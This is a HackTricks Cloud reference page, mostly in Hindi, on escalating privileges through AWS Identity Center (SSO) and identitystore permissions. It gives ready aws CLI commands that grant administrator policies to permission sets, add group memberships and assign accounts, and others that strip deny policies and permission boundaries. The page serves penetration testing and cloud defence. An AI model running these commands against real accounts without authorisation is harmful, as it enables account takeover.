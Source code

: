 # AWS - SSO & identitystore Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## AWS Identity Center / AWS SSO

AWS Identity Center / AWS SSO के बारे में अधिक जानकारी के लिए देखें:

{% content-ref url="../../aws-security/aws-services/aws-iam-enum.md" %}
[aws-iam-enum.md](../../aws-security/aws-services/aws-iam-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
ध्यान दें कि **डिफ़ॉल्ट** रूप से, केवल **प्रबंधन खाता** से **अनुमतियों** वाले **उपयोगकर्ता** IAM पहचान केंद्र तक पहुँचने और **नियंत्रण** करने में सक्षम होंगे।\
अन्य खातों के उपयोगकर्ता केवल तभी अनुमति दे सकते हैं यदि खाता **प्रतिनिधि प्रशासक** है।\
[अधिक जानकारी के लिए दस्तावेज़ देखें।](https://docs.aws.amazon.com/singlesignon/latest/userguide/delegated-admin.html)
{% endhint %}

### ~~Reset Password~~

इस तरह के मामलों में विशेषाधिकार बढ़ाने का एक आसान तरीका यह होगा कि उपयोगकर्ताओं के पासवर्ड को रीसेट करने की अनुमति हो। दुर्भाग्यवश, केवल उपयोगकर्ता को पासवर्ड रीसेट करने के लिए एक ईमेल भेजना संभव है, इसलिए आपको उपयोगकर्ता के ईमेल तक पहुँच की आवश्यकता होगी।

### `identitystore:CreateGroupMembership`

इस अनुमति के साथ, एक उपयोगकर्ता को एक समूह के अंदर सेट करना संभव है ताकि वह समूह की सभी अनुमतियाँ विरासत में ले सके। 

{% code overflow="wrap" %}
```bash
aws identitystore create-group-membership --identity-store-id <tore-id> --group-id <group-id> --member-id UserId=<user-id>
```
{% endcode %}

### `sso:PutInlinePolicyToPermissionSet`, `sso:ProvisionPermissionSet`

इस अनुमति के साथ एक हमलावर एक Permission Set को अतिरिक्त अनुमतियाँ दे सकता है जो उसके नियंत्रण में एक उपयोगकर्ता को दी गई है।

{% code overflow="wrap" %}
```bash
# Set an inline policy with admin privileges
aws sso-admin put-inline-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --inline-policy file:///tmp/policy.yaml

# Content of /tmp/policy.yaml
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Statement1",
"Effect": "Allow",
"Action": ["*"],
"Resource": ["*"]
}
]
}

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:AttachManagedPolicyToPermissionSet`, `sso:ProvisionPermissionSet`

इस अनुमति के साथ एक हमलावर एक उपयोगकर्ता को दिए गए अनुमति सेट को अतिरिक्त अनुमतियाँ दे सकता है जो उसके नियंत्रण में है

{% code overflow="wrap" %}
```bash
# Set AdministratorAccess policy to the permission set
aws sso-admin attach-managed-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --managed-policy-arn "arn:aws:iam::aws:policy/AdministratorAccess"

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:AttachCustomerManagedPolicyReferenceToPermissionSet`, `sso:ProvisionPermissionSet`

इस अनुमति के साथ एक हमलावर एक अनुमति सेट को अतिरिक्त अनुमतियाँ दे सकता है जो उसके नियंत्रण में एक उपयोगकर्ता को दी गई है।

{% hint style="warning" %}
इन अनुमतियों का दुरुपयोग करने के लिए, आपको यह जानना आवश्यक है कि **एक ग्राहक प्रबंधित नीति का नाम जो सभी खातों के अंदर है** जो प्रभावित होने वाले हैं।
{% endhint %}

{% code overflow="wrap" %}
```bash
# Set AdministratorAccess policy to the permission set
aws sso-admin attach-customer-managed-policy-reference-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --customer-managed-policy-reference <customer-managed-policy-name>

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:CreateAccountAssignment`

इस अनुमति के साथ एक हमलावर अपने नियंत्रण में एक उपयोगकर्ता को एक खाते के लिए एक अनुमति सेट दे सकता है।

{% code overflow="wrap" %}
```bash
aws sso-admin create-account-assignment --instance-arn <instance-arn> --target-id <account_num> --target-type AWS_ACCOUNT --permission-set-arn <permission_set_arn> --principal-type USER --principal-id <principal_id>
```
{% endcode %}

### `sso:GetRoleCredentials`

उपयोगकर्ता को सौंपे गए एक दिए गए भूमिका नाम के लिए STS अल्पकालिक क्रेडेंशियल्स लौटाता है।

{% code overflow="wrap" %}
```
aws sso get-role-credentials --role-name <value> --account-id <value> --access-token <value>
```
{% endcode %}

हालांकि, आपको एक एक्सेस टोकन की आवश्यकता है जिसे प्राप्त करने का मुझे यकीन नहीं है (TODO).

### `sso:DetachManagedPolicyFromPermissionSet`

इस अनुमति के साथ एक हमलावर निर्दिष्ट अनुमति सेट से AWS प्रबंधित नीति के बीच संबंध को हटा सकता है। **एक प्रबंधित नीति (निषेध नीति) को हटाकर** अधिक विशेषाधिकार प्रदान करना संभव है।

{% code overflow="wrap" %}
```bash
aws sso-admin detach-managed-policy-from-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN> --managed-policy-arn <ManagedPolicyARN>
```
{% endcode %}

### `sso:DetachCustomerManagedPolicyReferenceFromPermissionSet`

इस अनुमति के साथ एक हमलावर निर्दिष्ट अनुमति सेट से ग्राहक प्रबंधित नीति के बीच संबंध को हटा सकता है। **एक प्रबंधित नीति (अस्वीकृति नीति) को हटाकर** अधिक विशेषाधिकार प्रदान करना संभव है।

{% code overflow="wrap" %}
```bash
aws sso-admin detach-customer-managed-policy-reference-from-permission-set --instance-arn <value> --permission-set-arn <value> --customer-managed-policy-reference <value>
```
{% endcode %}

### `sso:DeleteInlinePolicyFromPermissionSet`

इस अनुमति के साथ एक हमलावर अनुमति सेट से इनलाइन नीति से अनुमतियों को हटाने की क्रिया कर सकता है। एक इनलाइन नीति (निषेध नीति) को हटाकर **अधिक विशेषाधिकार प्रदान करना संभव है**।

{% code overflow="wrap" %}
```bash
aws sso-admin delete-inline-policy-from-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN>
```
{% endcode %}

### `sso:DeletePermissionBoundaryFromPermissionSet`

इस अनुमति के साथ एक हमलावर अनुमति सेट से अनुमति सीमा को हटा सकता है। यह **अनुमति सीमा से दी गई अनुमति सेट पर प्रतिबंधों को हटाकर अधिक अधिकार देने** की संभावना है।

{% code overflow="wrap" %}
```bash
aws sso-admin   delete-permissions-boundary-from-permission-set --instance-arn <value> --permission-set-arn <value>
```
{% endcode %}

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **हमारे** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** का पालन करें।**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PRs सबमिट करें।

</details>
{% endhint %}
